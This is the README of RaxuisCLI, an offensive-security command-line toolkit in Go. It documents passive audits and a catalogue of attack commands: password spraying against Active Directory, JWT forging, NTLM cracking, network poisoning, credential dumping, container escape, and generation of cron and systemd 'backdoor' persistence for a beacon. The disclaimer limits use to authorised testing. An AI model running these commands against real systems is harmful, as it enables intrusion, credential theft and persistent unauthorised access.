


# RaxuisCLI

**Offensive Cybersecurity CLI Toolkit written in Go**

[](https://github.com/Raxuis/RaxuisCLI/actions/workflows/ci.yml)
[](https://github.com/Raxuis/RaxuisCLI/releases/latest)
[](https://www.npmjs.com/package/raxuiscli)
[](https://goreportcard.com/report/github.com/Raxuis/RaxuisCLI)
[](https://pkg.go.dev/github.com/Raxuis/RaxuisCLI)
[](LICENSE)

RaxuisCLI is a command-line tool designed for security professionals, pentesters, and CTF participants. It bundles many essential tools into a unified and portable interface.

<p align="center">
  
</p>

> **Maturity — read this first.** Commands carry a maturity label shown in their
> `--help` and in the [command catalog](#command-catalog) at the bottom of this
> file. Only `stable` commands (the passive **audit**, **compare**, **demo**, the
> guided **interactive** interface, and core commands) are considered complete.
> Many others are `experimental` (may be incomplete or change) or
> `informational` (they mostly print guidance or generated examples rather than
> performing the action end to end). Check the label before relying on a command.

## ⚠️ Legal Disclaimer

RaxuisCLI is built for **authorized security testing, CTF competitions, and educational use only**. It includes offensive tooling (network poisoning, credential attacks, exfiltration helpers, etc.) that can be illegal to use against systems you do not own or lack explicit written permission to test.

By using this software you agree to:
- Only target systems you own or have explicit authorization to test.
- Comply with all applicable local, state, national, and international laws.
- Accept full responsibility for how you use these tools.

The author(s) assume no liability and are not responsible for any misuse or damage caused by this software.

## Installation

### Homebrew (macOS / Linux)

```bash
brew install Raxuis/tap/raxuiscli
```

### npm / npx (Node)

```bash
npx raxuiscli tlsscan example.com      # run without installing
npm install -g raxuiscli               # or install globally
```

On install, a small script downloads the matching prebuilt binary from the
releases and verifies its checksum. Requires `tar` on `PATH` (default on Linux,
macOS, and Windows 10+).

### Install script (Linux / macOS)

```bash
curl -sSL https://raw.githubusercontent.com/Raxuis/RaxuisCLI/main/scripts/install.sh | sh
```

Pins a version with `RAXUIS_VERSION=v1.2.3` and the install dir with `RAXUIS_BIN_DIR=~/.local/bin`. The script verifies the release checksum before installing.

### Docker

```bash
docker run --rm ghcr.io/raxuis/raxuiscli dns lookup example.com
```

Images are published to GHCR for `linux/amd64` and `linux/arm64`.

### Linux packages

Grab the `.deb`, `.rpm`, or `.apk` for your architecture from the [releases page](https://github.com/Raxuis/RaxuisCLI/releases), then:

```bash
sudo dpkg -i raxuiscli_*.deb      # Debian / Ubuntu / Kali
sudo rpm -i  raxuiscli_*.rpm      # Fedora / RHEL
sudo apk add --allow-untrusted raxuiscli_*.apk   # Alpine
```

### Prebuilt binaries

Download the archive for your OS/arch from the [releases page](https://github.com/Raxuis/RaxuisCLI/releases). Each release ships checksums and an SBOM.

### From source

```bash
git clone https://github.com/Raxuis/RaxuisCLI.git
cd RaxuisCLI
go build -o bin/raxuiscli .
sudo mv bin/raxuiscli /usr/local/bin/   # optional: add to PATH

# Or install directly
go install github.com/Raxuis/RaxuisCLI@latest
```

## Usage

```bash
raxuiscli <command> [subcommand] [options]

# Help
raxuiscli --help
raxuiscli <command> --help
```

---

## Passive web audit and reports

`audit web` passively inspects exactly one HTTP or HTTPS URL that you are
authorized to test. It makes one bounded GET request for HTTP response headers;
HTTPS targets also have their certificate chain inspected. It does not crawl,
fuzz, submit forms, attempt exploits, or enumerate other paths. Response bodies
retained while collecting the audit are capped at the configured limit; one
extra byte may be read only to detect truncation. The report does not persist
response bodies because the audit needs headers, not content.

Use a local server when trying the command. In one terminal, serve a directory
that contains no sensitive files:

```bash
python3 -m http.server 8080 --bind 127.0.0.1
```

Then run the audit in another terminal:

```bash
# Human-readable text report on stdout (the default format)
./bin/raxuiscli audit web http://127.0.0.1:8080/

# Stable schema-v1 JSON on stdout; suitable for CI or other tools
./bin/raxuiscli --output=json audit web http://127.0.0.1:8080/

# Write JSON atomically to a file. Re-running against the same path needs --force.
./bin/raxuiscli --output=json --output-file /tmp/raxuiscli-audit-report.json audit web http://127.0.0.1:8080/
./bin/raxuiscli --output=json --output-file /tmp/raxuiscli-audit-report.json --force audit web http://127.0.0.1:8080/

# HTML is a self-contained, human-readable report and always requires a file.
./bin/raxuiscli --output=html --output-file /tmp/raxuiscli-audit-report.html audit web http://127.0.0.1:8080/
```

The report contains a versioned envelope with tool provenance, audit metadata,
findings, observations, and partial-failure errors. JSON emitted to stdout
contains only that envelope. The HTML report has embedded CSS and does not load
scripts or other remote resources. A deterministic, local-fixture example is
available at [`docs/examples/audit-report.json`](docs/examples/audit-report.json).

### Compare saved audit reports

`compare` accepts two schema-v1 JSON snapshots for the same audit kind and
target, then writes a deterministic difference. It classifies findings as
added, resolved, changed, or unchanged; use `--allow-target-mismatch` only when
comparing intentionally different local targets. The following uses the bundled
local fixture, so it makes no network request and always produces an empty diff:

```bash
mkdir -p /tmp/raxuiscli-compare
cp docs/examples/audit-report.json /tmp/raxuiscli-compare/before.json
cp docs/examples/audit-report.json /tmp/raxuiscli-compare/after.json

# Text is the default; JSON is a standalone comparison envelope for CI.
./bin/raxuiscli compare /tmp/raxuiscli-compare/before.json /tmp/raxuiscli-compare/after.json
./bin/raxuiscli --output=json compare /tmp/raxuiscli-compare/before.json /tmp/raxuiscli-compare/after.json
```

Use snapshots captured before and after an authorized local configuration change
to review regressions. `--fail-on-new=medium` returns status `2` only for an
added finding or a finding whose severity worsened to at least `MEDIUM`; it does
not fail for resolved, improved, or evidence-only changes. Comparison output
uses the same `--output-file` and `--force` contract as audits, and HTML output
requires an output file.

### TLS/SSL posture audit

`audit tls` assesses a server's TLS posture and emits the same versioned report
envelope as `audit web`, so its snapshots are diffable with `compare` and can
gate CI with `--fail-on`. It reuses the `tlsscan` engine (protocol versions,
cipher suites, certificate health) and records each weakness as a severity-rated
finding. It performs only ordinary handshakes against a host you are authorized
to test.

```bash
# Human-readable report (defaults to port 443)
./bin/raxuiscli audit tls example.com
./bin/raxuiscli audit tls example.com:8443

# Schema-v1 JSON snapshot for CI / comparison
./bin/raxuiscli --output=json --output-file before.json audit tls example.com

# Fail the pipeline when a HIGH (or worse) finding is present
./bin/raxuiscli --fail-on=high audit tls example.com

# Diff two snapshots taken before/after a TLS configuration change
./bin/raxuiscli --output=json --output-file after.json audit tls example.com
./bin/raxuiscli --fail-on-new=medium compare before.json after.json
```

The quick, non-report view remains available as the standalone
[`tlsscan`](#tlsscan---tlsssl-posture-audit) command.

### DNS / email posture audit

`audit dns` assesses a domain's DNS and email-authentication posture and emits
the same versioned report envelope, so it too is diffable with `compare` and
gate-able with `--fail-on`. It checks the SPF and DMARC records and whether the
domain's nameservers allow zone transfers (AXFR), and attaches the observed NS,
MX, and A records as observations. Run it only against domains you are
authorized to test.

```bash
raxuiscli audit dns example.com
raxuiscli --output=json --output-file before.json audit dns example.com
raxuiscli --fail-on=high audit dns example.com     # non-zero on HIGH+
raxuiscli audit dns example.com --skip-axfr        # skip zone-transfer checks
```

Typical findings: missing SPF/DMARC (MEDIUM), an over-permissive `+all` SPF or a
`p=none` DMARC policy, and an open zone transfer (CRITICAL).

### Scope, redirects, and request controls

The audit accepts one absolute `http` or `https` URL. HTTP targets record that
TLS was skipped; HTTPS targets inspect both headers and TLS certificates. By
default redirects are not followed, so a redirect response does not cause the
audit to contact a second target. Use `--follow-redirects` only when the
redirect destination is also in your authorized scope. `--timeout`,
`--max-body-bytes`, repeatable `--header 'Name: Value'`, `--cookie`,
`--user-agent`, and `--insecure` are available for an authorized target;
`--insecure` skips TLS verification for the HTTP request.

Reports are designed to avoid retaining secrets: URL credentials are removed,
query values become `<redacted>`, and sensitive request headers, cookies,
authorization values, common secret-like text, and certificate private material
are not persisted. Treat a report as security-sensitive nonetheless, because
it retains the target's scheme, host, port, path, findings, and non-sensitive
observations.

### Policy and exit status

`--fail-on` accepts `none`, `info`, `low`, `medium`, `high`, or `critical` and
defaults to `none`. It lets a completed audit fail a CI job when its highest
finding meets the chosen severity. The loopback server above intentionally lacks
some security headers, so this local-only example returns `2` after rendering the
report:

```bash
./bin/raxuiscli --output=json --fail-on=medium audit web http://127.0.0.1:8080/
```

The process exit statuses are exact:

| Status | Meaning |
|--------|---------|
| `0` | The audit completed and no configured `--fail-on` threshold was met. |
| `1` | Input or an operational step failed, such as URL validation, network/TLS/HTTP work, or writing a report. A partial audit still renders its available report, then exits `1`. |
| `2` | The audit completed and one or more findings met `--fail-on`. |

---

## Guided interface

`raxuiscli interactive` launches a keyboard-driven terminal interface for the
passive audit, the local demo, and report comparison. It never starts
implicitly: scripts and pipelines keep the stable non-interactive behavior, and
the command refuses to run when standard input or output is not a terminal
(for example under a pipe or in CI), printing the equivalent commands to use
instead.

```bash
./bin/raxuiscli interactive
```

Every action mirrors an existing command, and the review screen shows the exact
equivalent before anything runs (secret values such as cookies are masked):

| Interface action | Equivalent command |
|---|---|
| Passive Web Audit | `raxuiscli audit web <url> --output <fmt>` |
| Local Demo | `raxuiscli demo web` |
| Compare Reports | `raxuiscli compare <before> <after>` |
| Browse Commands | *(reads the built-in command catalog)* |

Keyboard controls:

| Key | Action |
|---|---|
| `↑` / `↓` (or `k` / `j`) | Move between actions or fields |
| `enter` | Select the action, continue, or run |
| `esc` | Go back one screen (or cancel a run in progress) |
| `ctrl+k` / `/` | Open the searchable command palette |
| `tab` / `←` / `→` | Move between form fields and change selectors |
| `1`–`5` / `a` | Filter results by severity, or show all |
| `s` | Save the current report |
| `q` | Quit |

Colors follow the same rules as the rest of the CLI: `--no-color`, `NO_COLOR`,
`TERM=dumb`, and non-terminal output all fall back to plain text.

### Visual Preview



**Features:**
- **Keyboard-first navigation** — Pure terminal UI, no mouse required
- **Live audit forms** — Enter URL, cookies, select output format
- **Review before running** — See the exact command with masked secrets
- **Colorized results** — Passive audit findings with maturity/safety badges
- **Report comparison** — Diff two audit snapshots to track regressions
- **Command browser** — Search and explore the full command catalog

---

## Available Commands

> **New to security tooling? Start here.** RaxuisCLI is a "Swiss-army knife" for
> security work: each command does one focused job. You do **not** need to know
> them all — pick the one that matches your task. Every command supports
> `raxuiscli <command> --help` for details and examples, most support
> `--output=json` for scripting, and each carries a maturity label in its help
> (`stable` = complete, `experimental` = may change, `informational` = prints
> guidance/examples rather than performing the action end to end). Only run
> active/offensive commands against systems you own or are authorized to test.

### What each family of commands is for (in plain English)

| Family | In one sentence | Example commands |
|---|---|---|
| **Network reconnaissance** | Find out what hosts and services exist on a network and what software they run. | `dns`, `whois`, `recon`, `scan` |
| **Cryptography** | Encode/decode, analyze, break, or generate cryptographic material (ciphers, JWTs, keys, certificates). | `cipher`, `jwt`, `keygen`, `certinfo`, `tlsscan` |
| **Active Directory / Windows** | Enumerate and attack Windows domains (users, groups, tickets, passwords). | `ldap`, `kerberos`, `ntlm`, `smb`, `spray` |
| **Privilege escalation & persistence** | On a machine you already have access to, find ways to get higher privileges or stay in. | `privesc`, `persist`, `creds` |
| **Network attacks & movement** | Poison local traffic, tunnel through networks, and pivot to reach new hosts. | `poison`, `tunnel`, `pivot`, `exfil` |
| **Web security** | Send custom HTTP requests and test websites/APIs for common vulnerabilities. | `http`, `fuzz`, `vuln`, `cookie` |
| **Cloud & containers** | Check cloud accounts, Docker, and Kubernetes for misconfigurations and escape paths. | `cloud`, `container`, `k8s` |
| **Encoding & analysis** | Everyday data helpers: hashing, encoding, entropy, file inspection. | `hash`, `hashid`, `encode`, `entropy`, `strings`, `hexdump`, `metadata` |
| **Utilities** | Convenience tools that touch nothing on the network. | `pwgen`, `ports`, `todo`, `files` |
| **Audit & reporting** | Passive, repeatable security reports you can diff over time and gate CI with. | `audit`, `compare`, `tlsscan` |

<details>
<summary><strong>Glossary — the jargon used above and in the command descriptions, in plain words</strong> (click to expand)</summary>

**General**
- **Pentest (penetration test):** an authorized, simulated attack to find weaknesses before real attackers do.
- **Red team:** offensive security — playing the attacker to test defenses.
- **CTF (Capture The Flag):** a security puzzle/competition where you exploit challenges to find hidden "flags".
- **Passive vs. active:** *passive* only reads/observes (low risk); *active* sends probes or attacks (only on authorized targets).

**Windows / Active Directory**
- **Active Directory (AD):** Microsoft's system for managing Windows users, computers, and permissions in a company.
- **Domain Controller (DC):** the server that runs AD and checks logins.
- **LDAP:** the protocol used to query and log in to AD (think "the directory's query language").
- **Kerberos / KDC:** the ticket-based login system in AD; the **KDC** is the service that issues those tickets.
- **NTLM:** an older Windows login/hashing scheme; its password hashes are often cracked or replayed.
- **SMB:** Windows file/printer sharing (the `\\server\share` protocol).
- **Password spraying:** trying **one** common password against **many** users (the opposite of brute-forcing one user), to avoid locking accounts.
- **Kerberoasting / AS-REP roasting:** requesting Kerberos data for accounts, then cracking it offline to recover passwords.

**Getting in deeper**
- **Privilege escalation:** going from a low-privilege user to admin/root.
- **SUID / sudo / capabilities:** Linux mechanisms that, if misconfigured, let a normal user run code as root.
- **Persistence:** ways to keep access after a reboot or logout.
- **Poisoning (LLMNR/NBT-NS/mDNS):** answering Windows name-lookup broadcasts to trick machines into sending you their credentials.
- **Pivoting / tunneling / SOCKS proxy:** using one compromised host as a stepping stone to reach networks you couldn't otherwise touch.
- **Exfiltration:** sneaking data out of a network (e.g. hidden in DNS or ICMP traffic).

**Web**
- **HTTP headers:** metadata sent with every web request/response; some headers (or their absence) reveal security weaknesses.
- **XSS (Cross-Site Scripting):** injecting malicious JavaScript into a page other users view.
- **SQLi (SQL injection):** injecting database commands through an input field.
- **LFI/RFI (Local/Remote File Inclusion):** tricking a site into reading or running files it shouldn't.
- **CORS / Host header / SSRF / XXE:** various ways web apps can be tricked into trusting the wrong origin, host, URL, or XML input.
- **JWT / cookie / session:** tokens that keep you logged in; they can sometimes be decoded, forged, or tampered with.

**Crypto & data**
- **Hash:** a one-way fingerprint of data (e.g. MD5, SHA-256). **Hash cracking** = guessing the original input; **`hashid`** = identifying which hash type you have.
- **TLS/SSL & certificates:** the encryption behind `https://`; `tlsscan`/`certinfo` grade how well a server is configured.
- **Cipher:** an algorithm that scrambles text; the `cipher` command handles classic ones (Caesar, XOR, Vigenère…).
- **Entropy:** a measure of randomness — high entropy often means data is encrypted or compressed.
- **Banner grabbing:** connecting to a service to read the "hello" text that reveals its software and version.

</details>

### Network Reconnaissance

#### `dns` - DNS Operations
Performs DNS queries, zone transfer attempts, and subdomain enumeration.

```bash
# Standard DNS lookup (A, AAAA, MX, NS, TXT, CNAME)
raxuiscli dns lookup example.com

# Lookup with specific type
raxuiscli dns lookup example.com --type MX
raxuiscli dns lookup example.com --type ANY

# Reverse DNS (PTR)
raxuiscli dns reverse 8.8.8.8

# Zone transfer attempt (AXFR)
raxuiscli dns axfr example.com --server ns1.example.com

# Subdomain brute force
raxuiscli dns brute example.com --wordlist subdomains.txt
raxuiscli dns brute example.com --wordlist subdomains.txt --threads 20
```

**Use cases:**
- Initial reconnaissance of a target domain
- Discovery of hidden subdomains
- Identification of mail and DNS servers
- Detection of misconfigurations (zone transfer)

---

#### `whois` - WHOIS Information
Retrieves registration information for domains, IPs, and ASNs.

```bash
# Domain WHOIS
raxuiscli whois example.com

# IP WHOIS
raxuiscli whois 8.8.8.8

# ASN WHOIS
raxuiscli whois AS15169
```

**Use cases:**
- Identifying domain owners
- Network infrastructure discovery
- Asset correlation via ASN

---

#### `recon` - Banner Grabbing
Retrieves service banners to identify software versions.

```bash
# Banner grab on a port
raxuiscli recon example.com:22
raxuiscli recon example.com:80

# Multi-port scan
raxuiscli recon example.com --ports 21,22,80,443,8080

# With custom timeout
raxuiscli recon example.com:22 --timeout 5
```

**Use cases:**
- Service version identification (SSH, HTTP, FTP...)
- Technology detection
- Server fingerprinting

#### `scan` - Attack-Surface Mapper
Concurrent host and TCP service discovery across a network. Finds live hosts,
scans their services with banner/version detection, and tags interesting ones
with the raxuiscli command to run next — turning discovery into an attack
workflow. Accepts a single IP, a hostname list, or an IPv4 CIDR. **Only run it
against networks you are authorized to test (pentest, CTF, or your own lab).**

```bash
raxuiscli scan 10.10.10.0/24                       # curated top ports
raxuiscli scan 10.10.10.5 --ports 1-1024           # custom range/list
raxuiscli scan 10.10.10.0/24 --jitter 200ms -c 50  # low & slow
raxuiscli scan 192.168.1.10 --full --no-discovery  # all 65535 ports
raxuiscli --output=json scan 10.0.0.0/24 > surface.json  # diffable JSON
```

Example output:
```
10.10.10.5   dc01.corp.local
  88/tcp    kerberos       → raxuiscli kerberos asrep -d <domain>
  389/tcp   ldap           → raxuiscli ldap enum -H 10.10.10.5
  445/tcp   smb            → raxuiscli smb null -H 10.10.10.5
  5985/tcp  winrm          [WinRM] evil-winrm / lateral movement target
```

**Flags:** `--ports/-p`, `--full`, `--concurrency/-c`, `--timeout/-t`,
`--jitter`, `--no-discovery`, `--no-banner`.

---

### Cryptography

#### `cipher` - Classical Ciphers
Operations on classical ciphers (XOR, Vigenère, Caesar, etc.).

```bash
# XOR with key
raxuiscli cipher xor "secret text" --key "key"
raxuiscli cipher xor "48656c6c6f" --key "abc" --hex

# XOR brute force (single byte key)
raxuiscli cipher xor-brute "encrypted text"
raxuiscli cipher xor-brute "1b37373331" --hex

# Multi-byte XOR brute force
raxuiscli cipher xor-brute "text" --max-key-len 4

# Caesar cipher
raxuiscli cipher caesar "hello" --shift 3
raxuiscli cipher caesar "khoor" --shift 3 --decrypt
raxuiscli cipher caesar "unknown text" --brute

# ROT13
raxuiscli cipher rot13 "hello world"

# Vigenère
raxuiscli cipher vigenere "plaintext" --key "SECRET"
raxuiscli cipher vigenere "ciphertext" --key "SECRET" --decrypt

# Crack Vigenère (Kasiski analysis)
raxuiscli cipher vigenere-crack "long ciphertext here..."

# Atbash (A=Z, B=Y...)
raxuiscli cipher atbash "hello"

# Frequency analysis
raxuiscli cipher freq "text to analyze"
raxuiscli cipher freq -f file.txt

# Automatic cipher type detection
raxuiscli cipher detect "encrypted text"
```

**Use cases:**
- CTF: Solving classical crypto challenges
- Obfuscated data analysis
- Simple communication decryption

---

#### `jwt` - JSON Web Tokens
Decoding, creation, cracking, and exploitation of JWTs.

```bash
# Decode a JWT (without verification)
raxuiscli jwt decode "eyJhbGciOiJIUzI1NiIs..."

# Verify signature
raxuiscli jwt verify "eyJ..." --secret "mysecret"

# Create a JWT
raxuiscli jwt forge --payload '{"admin":true,"user":"hacker"}' --secret "secret"
raxuiscli jwt forge --payload '{"role":"admin"}' --algorithm HS512 --secret "key"

# Brute force the secret
raxuiscli jwt crack "eyJ..." --wordlist secrets.txt
raxuiscli jwt crack "eyJ..." --common  # Common secrets list

# Algorithm:none attack
raxuiscli jwt none-attack "eyJ..."

# Security audit
raxuiscli jwt check "eyJ..."
```

**Use cases:**
- JWT vulnerability testing (alg:none, weak secrets)
- Privilege escalation via claim modification
- Authentication token analysis

---

#### `keygen` - Key Generation
Generates cryptographic keys and certificates.

```bash
# RSA key
raxuiscli keygen rsa
raxuiscli keygen rsa --bits 4096
raxuiscli keygen rsa --bits 2048 --out private.pem

# ECDSA key
raxuiscli keygen ecdsa
raxuiscli keygen ecdsa --curve P384

# Ed25519 key
raxuiscli keygen ed25519
raxuiscli keygen ed25519 --out key.pem

# SSH key
raxuiscli keygen ssh --type ed25519
raxuiscli keygen ssh --type rsa --bits 4096
raxuiscli keygen ssh --type ed25519 --out id_ed25519

# Self-signed certificate
raxuiscli keygen cert --cn example.com
raxuiscli keygen cert --cn test.local --days 365 --bits 4096
raxuiscli keygen cert --cn mysite.com --out cert.pem --key key.pem

# AES key
raxuiscli keygen aes
raxuiscli keygen aes --bits 256

# Random bytes
raxuiscli keygen random --length 32
```

**Use cases:**
- Quick key generation for testing
- Self-signed certificate creation
- Secret and IV generation

---

#### `certinfo` - Certificate Analysis
Analyzes X.509 certificates from servers or files.

```bash
# Certificate from a server
raxuiscli certinfo google.com
raxuiscli certinfo example.com:8443

# Certificate from file
raxuiscli certinfo cert.pem

# Full chain
raxuiscli certinfo example.com --chain
raxuiscli certinfo chain example.com

# Validation
raxuiscli certinfo validate example.com
raxuiscli certinfo example.com --validate

# Extract SANs
raxuiscli certinfo san example.com

# Compare two certificates
raxuiscli certinfo compare site1.com site2.com
```

**Use cases:**
- TLS configuration verification
- Domain discovery via SANs
- Audit of expired or misconfigured certificates

#### `tlsscan` - TLS/SSL Posture Audit
Assesses a server's TLS configuration and grades it. Probes supported protocol
versions (TLS 1.0-1.3), enumerates accepted cipher suites and their weaknesses
(RC4, 3DES, CBC, missing forward secrecy), and checks certificate health
(expiry, self-signed, weak signature or key, hostname match). Each issue is
reported as a severity-rated finding. It performs only ordinary handshakes, so
it is safe to run against systems you are authorized to test.

```bash
# Scan a host (defaults to port 443)
raxuiscli tlsscan example.com
raxuiscli tlsscan example.com:8443

# Machine-readable findings for CI / pipelines
raxuiscli tlsscan example.com --output json

# Custom per-connection timeout
raxuiscli tlsscan example.com --timeout 5
```

**Use cases:**
- Detect deprecated protocols (TLS 1.0/1.1) and weak cipher suites
- Flag SWEET32 (3DES), RC4, and no-forward-secrecy exposure
- Gate a CI pipeline on TLS posture using `--output json`

---

### Active Directory

#### `ldap` - LDAP Enumeration
Active Directory enumeration via LDAP.

```bash
# Connection test
raxuiscli ldap test -H dc.domain.local

# User enumeration
raxuiscli ldap users -H dc.domain.local -u user -p pass -d domain.local

# Computer enumeration
raxuiscli ldap computers -H dc.domain.local -u user -p pass

# Group enumeration
raxuiscli ldap groups -H dc.domain.local -u user -p pass

# Anonymous bind test
raxuiscli ldap anonymous -H dc.domain.local
```

**Use cases:**
- Active Directory reconnaissance
- Privileged account identification
- Kerberoastable user discovery

---

#### `kerberos` - Kerberos Attacks
Helpers for Kerberos attacks.

```bash
# AS-REP Roasting (users without pre-auth)
raxuiscli kerberos asrep -u users.txt -d domain.local

# Kerberoasting (users with SPN)
raxuiscli kerberos roast -H dc.domain.local -u user -p pass

# List tickets
raxuiscli kerberos tickets

# Kerberos information
raxuiscli kerberos info
```

**Use cases:**
- Crackable hash extraction
- Service account compromise
- AD privilege escalation

---

#### `ntlm` - NTLM Operations
NTLM hash and relay attacks.

```bash
# Generate NTLM hash
raxuiscli ntlm hash "Password123"

# Crack NTLM hash
raxuiscli ntlm crack "aad3b435b51404eeaad3b435b51404ee:..." -w wordlist.txt

# NTLM relay information
raxuiscli ntlm relay

# Pass-the-hash info
raxuiscli ntlm pth
```

**Use cases:**
- Windows password cracking
- Pass-the-hash attack preparation
- NTLM relay attacks

---

### SMB & Network

#### `smb` - SMB Operations
SMB scanning and share enumeration.

```bash
# SMB scan
raxuiscli smb scan 192.168.1.100
raxuiscli smb scan 192.168.1.0/24

# Share enumeration
raxuiscli smb shares -H target
raxuiscli smb shares -H target -u guest -p ""

# Null session test
raxuiscli smb null -H target
```

**Use cases:**
- Network share discovery
- Anonymous session testing
- SMB vulnerability identification

#### `spray` - AD Password Spraying (LDAP)
Low-and-slow password spraying against Active Directory over LDAP simple bind.
Sprays **one password across all users per round** (never many passwords at one
user in a burst) to respect account-lockout policy, and consumes the `ad`-tagged
LDAP targets discovered by `scan`. **Authorized use only** — know the lockout
policy first and space rounds with `--round-delay`.

```bash
# Feed it the ad-tagged LDAP targets found by scan (file or stdin pipe)
raxuiscli --output=json scan 10.10.10.0/24 > surface.json
raxuiscli spray --from-scan surface.json -u users.txt --password 'Winter2025!' -d corp.local
raxuiscli --output=json scan 10.0.0.0/24 | raxuiscli spray --from-scan - -u users.txt -p passwords.txt -d corp.local

# Or point at a single domain controller
raxuiscli spray -H dc01.corp.local -u users.txt --password 'Spring2025!' -d corp.local

# Low & slow with lockout guard; --delay paces the launch rate
raxuiscli spray --from-scan surface.json -u users.txt -p passwords.txt -d corp.local \
  --delay 500ms --jitter 300ms --round-delay 31m --lockout-threshold 5

# Grab one foothold and stop, saving valid creds for reuse
raxuiscli spray --from-scan surface.json -u users.txt -p passwords.txt -d corp.local \
  --stop-on-success --out valid-creds.txt

# Kerberos mode: spray via AS-REQ pre-authentication against the KDC (port 88)
raxuiscli spray --protocol kerberos --from-scan surface.json -u users.txt --password 'Winter2025!' -d corp.local
```

Two protocols are supported with `--protocol`:
- `ldap` (default) — LDAP simple bind against a domain controller (ports 389/636/3268/3269).
- `kerberos` — AS-REQ pre-authentication (RC4-HMAC) against the KDC (port 88). It
  distinguishes valid, invalid, non-existent, locked, and password-expired
  accounts, and warns if the KDC refuses RC4 (AES-only hardening).

**Flags:** `--protocol` (ldap|kerberos), `--from-scan`, `-H/--host`, `-u/--users`,
`-p/--passwords` / `--password`, `-d/--domain`, `-c/--concurrency`, `-t/--timeout`,
`--delay` (launch rate limit), `--jitter`, `--round-delay`, `--lockout-threshold`,
`--force`, `--continue-on-success`, `--stop-on-success`, `-o/--out`.

**Safety:** valid credentials are confirmed via the LDAP bind resultCode (0 =
success, 49 = invalid) — the bind parser fails closed on an unparseable
response, so it does not report false positives.

---

#### `poison` - Network Poisoning
Helpers for LLMNR/NBT-NS/mDNS poisoning.

```bash
# Analyze traffic
raxuiscli poison analyze -i eth0 --duration 30

# Responder commands
raxuiscli poison llmnr -i eth0
raxuiscli poison mdns -i eth0
raxuiscli poison nbtns -i eth0

# ARP poisoning commands
raxuiscli poison arp -i eth0

# List protocols
raxuiscli poison protocols
```

**Use cases:**
- NetNTLM credential capture
- Man-in-the-middle on local network
- Legacy protocol exploitation

---

### Privilege Escalation

#### `privesc` - PrivEsc Checks
Privilege escalation checks for Linux/macOS.

```bash
# System information
raxuiscli privesc info

# SUID binary search
raxuiscli privesc suid

# Sudo check
raxuiscli privesc sudo

# Capabilities
raxuiscli privesc caps

# Cron job analysis
raxuiscli privesc cron

# World-writable files
raxuiscli privesc writable

# All checks
raxuiscli privesc all
```

**Use cases:**
- Linux post-exploitation
- Privilege escalation vector search
- System security audit

---

#### `persist` - Persistence Mechanisms
Information on persistence techniques.

```bash
# List techniques (current OS)
raxuiscli persist list

# All techniques (all OS)
raxuiscli persist list --all

# Check existing persistence
raxuiscli persist check

# Generate cron configuration
raxuiscli persist generate cron "* * * * * /tmp/beacon"

# Generate systemd service
raxuiscli persist generate systemd --name backdoor --command /tmp/beacon

# Generate macOS plist
raxuiscli persist generate launchd --label com.backdoor --command /tmp/beacon
```

**Use cases:**
- Quick reference for persistence techniques
- Existing backdoor detection
- Configuration generation

---

### Credentials

#### `creds` - Credential Extraction
Credential location and parsing.

```bash
# Locate credential files
raxuiscli creds dump

# Parse hash file
raxuiscli creds parse hashfile.txt

# Shell history
raxuiscli creds history

# SSH keys
raxuiscli creds ssh

# Configuration files
raxuiscli creds config
```

**Use cases:**
- Post-exploitation: secret extraction
- Credential dump analysis
- SSH key discovery

---

### Cloud

#### `cloud` - Cloud Enumeration
AWS, Azure, and GCP reconnaissance.

```bash
# AWS S3
raxuiscli cloud aws s3 --bucket company-backup
raxuiscli cloud aws s3 --bucket company --region eu-west-1

# AWS Metadata (from EC2)
raxuiscli cloud aws metadata

# Azure Blob
raxuiscli cloud azure blob --account storageaccount

# Azure Metadata
raxuiscli cloud azure metadata

# GCP Metadata
raxuiscli cloud gcp metadata
```

**Use cases:**
- Misconfigured S3 bucket discovery
- SSRF to metadata services
- Cloud infrastructure reconnaissance

---

### Containers

#### `container` - Container Security
Docker container audit and escape.

```bash
# Container information
raxuiscli container info

# Escape techniques
raxuiscli container escape

# Security audit
raxuiscli container audit

# Docker socket
raxuiscli container socket
```

